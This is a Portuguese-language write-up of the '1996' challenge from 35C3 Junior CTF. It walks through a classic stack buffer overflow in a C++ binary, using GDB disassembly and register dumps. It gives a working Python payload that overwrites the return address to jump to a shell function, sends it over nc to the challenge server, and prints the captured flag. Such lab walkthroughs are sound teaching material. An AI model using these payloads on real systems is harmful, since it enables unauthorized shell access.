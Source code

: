 ## Nome:  1996  [35C3 CTF](https://ctftime.org/event/718)

### Dificuldade: Muito fácil

### [](https://github.com/kontez/writeups/blob/master/35C3junior.md#description-6)Descrição: 
It's  [1996](https://35c3ctf.ccc.ac/uploads/juniorctf/1996-846a46384ff5d85d861c09fc49912def510336e0.zip)  all over again!
`nc 35.207.132.47 22227`


## Levantamento de informações
*Ao baixarmos e extrairmos o arquivo zip, obtemos 2 novos arquivos:*

    root@kali:~/Downloads# unzip 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        Archive: 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        inflating: 1996.cpp
    
        inflating: 1996
*Ao abrirmos o arquivo 1996.cpp, podemos ver o seguinte código:*

    // compile with -no-pie -fno-stack-protector
    
    #include <iostream>
    #include <unistd.h>
    #include <stdlib.h>
    
    using namespace std;
    
    void spawn_shell() {
        char* args[] = {(char*)"/bin/bash", NULL};
        execve("/bin/bash", args, NULL);
    }
    
    int main() {
        char buf[1024];
    
        cout << "Which environment variable do you want to read? ";
        cin >> buf;
    
        cout << buf << "=" << getenv(buf) << endl;
    }

 - *observando o código acima, podemos ver que existe um **buf** com tamanho de **1024***
 - Rodando o comando **File** no linux, obtemos as seguintes informações do binário:
    
        root@kali:~/Downloads# file 1996
        1996: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b17d4a3919a3b046b03d35e2fdba47cd94d6aef, not stripped
    
    
## Solução
*Utilizando o [GDB](https://www.gnu.org/software/gdb/), podemos visualizar o endereço da função **spawn_shell( )** vista no código cpp:*

    (gdb) info functions
          all defined functions
          ...
          ...
          ...
          ...
          0x0000000000400897 spawn_shell( )
*analisando a função principal do programa, definimos alguns breakpoints para iniciar a solução*

    

    (gdb) disas main
        
        Dump of assembler code for function main:
        0x00000000004008cd <+0>: push %rbp   
        0x00000000004008ce <+1>: mov %rsp,%rbp    
        0x00000000004008d1 <+4>: push %rbx    
        0x00000000004008d2 <+5>: sub $0x408,%rsp    
        0x00000000004008d9 <+12>: lea 0x188(%rip),%rsi # 0x400a68    
        0x00000000004008e7 <+26>: callq 0x400760 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>    
        0x00000000004008ec <+31>: lea -0x410(%rbp),%rax   
        0x00000000004008f3 <+38>: mov %rax,%rsi  
        0x00000000004008f6 <+41>: lea 0x200883(%rip),%rdi # 0x601180 
        ...
        ...
        ...
        0x0000000000400959 <+140>: mov $0x0,%eax
        0x000000000040095e <+145>: add $0x408,%rsp    
        0x0000000000400965 <+152>: pop %rbx
        0x0000000000400966 <+153>: pop %rbp
        0x0000000000400967 <+154>: retq
         
        End of assembler dump.

    (gdb) b * 0x0000000000400959 
         Breakpoint 1 at 0x0000000000400959 
        
*Sabendo do tamanho do nosso buf, usamos o python para criar nosso Payload*

    r <<< $(python -c 'print "A" * 1040 + "B"*14')
*Após alguns testes, obtemos o controle do registrador **rip**, responsável por obter o endereço da instrução seguinte.*

   

     (gdb) info registers
    rax 0x0  0    
    rbx 0x4141414141414141  4702111234474983745    
    rcx 0x7ffff7d582a4  140737351352996    
    rdx 0x0  0    
    rsi 0x7ffff7e288c0  140737352206528    
    rdi 0x0  0    
    rbp 0x4242424242424242  0x4242424242424242
    rsp 0x7fffffffe1c0  0x7fffffffe1c0
    r8 0x7ffff7e288c0  140737352206528
    r9 0x7ffff7abfd00  140737348631808
    r10 0x328  808
    r11 0x246  582
    r12 0x4007b0  4196272
    r13 0x7fffffffe290  140737488347792
    r14 0x0  0
    r15 0x0  0
    rip 0x424242424242  0x424242424242
    eflags 0x10202 [ IF RF ]
    cs 0x33  51  
    ss 0x2b  43   
    ds 0x0  0 
    es 0x0  0
    fs 0x0  0
*Com isso, basta sobrescrevermos o endereço de **rip** por **0x0000000000400897**, endereço da função **spawn_shell( )**.*

    r <<< $(python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"')
* *O endereço da função **spawn_shell** deve ser utilizado em [Little Endian ](https://edisciplinas.usp.br/pluginfile.php/149774/mod_resource/content/1/03-Endianess-v2.pdf)*

*Para enviarmos o Payload ao servidor, utilizamos o **|** para concatenar nossa linha de código com a conexão ao servidor.*

    (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"') | nc 35.207.132.47 22227
   *Não obtemos erro, porém, a conexão é quebrada logo em seguida. Para corrigirmos isto, concatenamos " **;cat**" à nossa linha de código. O cat fará com que o **/bin/bash** mantenha-se ativo enquanto estivermos conectados ao servidor*

        (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"';cat) | nc 35.207.132.47 22227
    ...
    ...
    ...
    
    Wich environment variable do you want to read? AAAAAAAAAA
    AAAA.......@=ls
    
    1996
    bin
    boot
    dev
    etc
    flag.txt
    home
    lib
    ....
    cat flag.txt
### Flag: 35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

> Recomendações para entendimento geral

 - [x86_64 assembly](https://www.cs.uaf.edu/2017/fall/cs301/reference/x86_64.html)
 - [Buffer_overflows_really_simple](http://www.cse.chalmers.se/edu/course/EDA263/oh15/L03%20buffer_overflows_really_simple--print.pdf)

